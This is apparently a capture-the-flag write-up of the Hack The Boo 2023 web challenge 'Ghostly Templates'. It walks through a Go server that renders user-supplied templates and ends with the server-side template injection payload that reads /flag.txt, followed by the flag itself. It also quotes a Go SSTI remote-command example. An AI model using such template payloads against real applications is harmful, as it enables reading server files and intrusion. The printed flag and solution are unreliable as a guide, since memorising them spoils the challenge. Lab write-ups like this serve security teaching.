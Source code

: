 ```yaml
---
layout: default
title: Wide
---
```


# [Hack The Boo 2023](index.md) - Web - Ghostly Templates

> In the dark corners of the internet, a mysterious website has been making waves among the cybersecurity community. This site, known for its Halloween-themed templates, has sparked rumors of an eerie secret lurking beneath the surface. Will you delve into this dark and spooky webapp to uncover the hidden truth?

Like most web challenges, we are provided with a zip file containing source code, and an IP/port to connect to the "live" challenge with.

The website seems fairly simple at first - no login or anything.

![Ghostly Templates](web-ghostlytemplates/01.png)

I'm not familliar with whatever templating technology they're using, but I can tell that the name of the game here is some kind of template "injection" - making a template with something in it that the developers did not intend or defend against.

As an aside, as a developer, I can tell that this is _definitely not a good idea_ for a publicly accessible website... I don't need to know anything about how the templating works to know that this is dangerous and will almost certainly be abused.

Anyway - I don't recognize the syntax that the templating engine is using, so lets look at the source code.

The actual challenge code is pretty simple, there only really being two important files - `main.go` and `index.tpl`.

I'm not at all familliar with Go, or `.tpl` templates, so I spent some time doing some research.

It seems that there are numerous web-based templating systems that would use `.tpl`, and have similar syntax, but I figured the most likely one is the one mentioned in the Go documentation - [https://pkg.go.dev/text/template](https://pkg.go.dev/text/template)

I used [GitHub Gists](https://gist.github.com) to create a file for testing, so that I could give the web app the URL for it. 

The first one I made was this - a simple page that utilized all the variables that the challenge told us we could use:

```html
<html>
<H1>Variables that they list that are usable</H1>
<ul>
 <li><b>ClientIP:</b> {{ .ClientIP }}</li>
 <li><b>Client UA:</b> {{ .ClientUA }}</li>
 <li><b>Server Hostname:</b> {{ .ServerInfo.Hostname }}</li>
 <li><b>Server OS:</b> {{ .ServerInfo.OS }}</li>
 <li><b>Server Kernel:</b> {{ .ServerInfo.KernelVersion }}</li>
 <li><b>Server Memory:</b> {{ .ServerInfo.Memory }}</li>
 <li><b>ClientIpInfo:</b> {{ .ClientIpInfo }}</li>
</ul>
</html>
```

Now that I had that working, I went looking for some ways to abuse this.

I tried to set my user-agent string to include some Javascript, but it did "sanitize" it when it displayed it on the page. This wouldn't have helped get the flag, but it was interesting to know.

I went looking through the code to find where we actually see the flag, and I didn't find any part of the code or template that loads or displays it. This tells me that we need to somehow convince it to read from the file system, or possibly get a reverse shell on the system to read it for ourselves.

I eventually found this website, which discusses Server-Site Template Injection techniques:
https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md. This page has a section specifically about SSTI in Go: https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md#ssti-in-go

To quote this article:
> If you want to find a RCE in go via SSTI, you should know that as you can access the given object to the template with {{ . }}, you can also call the objects methods. So, imagine that the passed object has a method called System that executes the given command, you could abuse it with: {{ .System "ls" }}

It seems we should be able to reference any local or public object from the underlying code in our template, not just the ones they intended. We don't have a method called `System` like in the example, but lets see what we _do_ have...

The code that renders the template is as follows:

```go
func getTpl(w http.ResponseWriter, r *http.Request) {
	var page string = r.URL.Query().Get("page")
	var remote string = r.URL.Query().Get("remote")

	if page == "" {
		http.Error(w, "Missing required parameters", http.StatusBadRequest)
		return
	}

	reqData := &RequestData{}

	userIPCookie, err := r.Cookie("user_ip")
	clientIP := ""

	if err == nil {
		clientIP = userIPCookie.Value
	} else {
		clientIP = strings.Split(r.RemoteAddr, ":")[0]
	}

	userAgent := r.Header.Get("User-Agent")

	locationInfo, err := reqData.GetLocationInfo("https://freeipapi.com/api/json/" + clientIP)

	if err != nil {
		http.Error(w, "Could not fetch IP location info", http.StatusInternalServerError)
		return
	}

	reqData.ClientIP = clientIP
	reqData.ClientUA = userAgent
	reqData.ClientIpInfo = *locationInfo
	reqData.ServerInfo.Hostname = GetServerInfo("hostname")
	reqData.ServerInfo.OS = GetServerInfo("cat /etc/os-release | grep PRETTY_NAME | cut -d '\"' -f 2")
	reqData.ServerInfo.KernelVersion = GetServerInfo("uname -r")
	reqData.ServerInfo.Memory = GetServerInfo("free -h | awk '/^Mem/{print $2}'")

	var tmplFile string

	if remote == "true" {
		tmplFile, err = readRemoteFile(page)

		if err != nil {
			http.Error(w, "Internal Server Error", http.StatusInternalServerError)
			return
		}
	} else {
		if !reqData.IsSubdirectory("./", TEMPLATE_DIR+"/"+page) {
			http.Error(w, "Internal Server Error", http.StatusInternalServerError)
			return
		}

		tmplFile = reqData.OutFileContents(TEMPLATE_DIR + "/" + page)
	}

	tmpl, err := template.New("page").Parse(tmplFile)
	if err != nil {
		http.Error(w, "Internal Server Error", http.StatusInternalServerError)
		return
	}

	err = tmpl.Execute(w, reqData)
	if err != nil {
		http.Error(w, "Internal Server Error", http.StatusInternalServerError)
		return
	}
}
```

And in this file we can see the variables that it's told use that we can use:

```go
reqData.ClientIP = clientIP
reqData.ClientUA = userAgent
reqData.ClientIpInfo = *locationInfo
reqData.ServerInfo.Hostname = GetServerInfo("hostname")
reqData.ServerInfo.OS = GetServerInfo("cat /etc/os-release | grep PRETTY_NAME | cut -d '\"' -f 2")
reqData.ServerInfo.KernelVersion = GetServerInfo("uname -r")
reqData.ServerInfo.Memory = GetServerInfo("free -h | awk '/^Mem/{print $2}'")
```

These seem fairly dangerous on their own, since they are running arbitrary Linux commands, but I don't see an obvious way to inject anything into them.

It seems that the things that we can access are all "under" the `reqData` object/class - we're able to directly reference `reqData.ClientIP` by including `{{ .ClientIP }}` in our template. We can probably access _anything_ that lives in `reqData`. The code gives us some clues that we can refer to some functions as well:

```go
locationInfo, err := reqData.GetLocationInfo("https://freeipapi.com/api/json/" + clientIP)
...
tmplFile = reqData.OutFileContents(TEMPLATE_DIR + "/" + page)
```

The `OutFileContents` looks interesting - it's intended to be run after the template file is downloaded to a temporary directory, but it doesn't really have any security built into it. I would probably have written it in such a way that it could only ever access files from the temp directory.

```go
func (p RequestData) OutFileContents(filePath string) string {
	data, err := os.ReadFile(filePath)
	if err != nil {
		return err.Error()
	}
	return string(data)
}
```

With what we learned from the SSTI document, we should be able to do something like the code below to get it to read the contents of `flag.txt`. We know that `flag.txt` is located at `/flag.txt`, because we can see where the Dockerfile put it in the source code.

```
{{ .OutFileContents "/flag.txt" }}
```

And sure enough, this gets us the flag.

```
HTB{t3mpl14t35_c4n_c4us3_p41n__4nd_f1l35_1nclud3d!}
```